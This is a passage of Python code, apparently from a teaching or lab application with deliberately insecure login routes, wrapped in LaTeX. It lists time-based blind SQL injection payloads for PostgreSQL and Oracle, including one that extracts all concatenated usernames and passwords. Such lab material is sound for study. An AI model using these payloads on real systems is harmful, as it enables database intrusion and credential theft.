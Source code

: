 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
""",
                "password": "cualquier_input"
            },
            {
                "nombre": "Usuarios y contraseñas concatenados (POSTGRESQL)",
                "usuario": """ ' AND (
    LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), 1) <> 'a'
    OR (
      LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), 1) = 'a'
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
    )
    --""",
                "password": "cualquier_input"
            },
            {
                "nombre": "Obtener nombre de la base de datos (ORACLE)",
                "usuario":"""' OR (CASE 
        WHEN SUBSTR((SELECT global_name FROM global_name), 1, 1) = 'O' 
        THEN (SELECT COUNT(*) 
              FROM all_objects, all_objects, all_objects) 
        ELSE 0 
     END) = 0 --""",
                "password": "cualquier_input"
            }
        ],
        "usuario": "admin",
        "clave": "admin",
        "route_oracle": "login_oracle_time_based",
        "route_postgres": "login_postgres_time_based",
        "function_oracle": login_inseguro_blind_no_cookie_oracle,
        "function_postgres":  login_inseguro_blind_no_cookie_postgresql
    }
}
\end{lstlisting}

\newpage
\end{document}
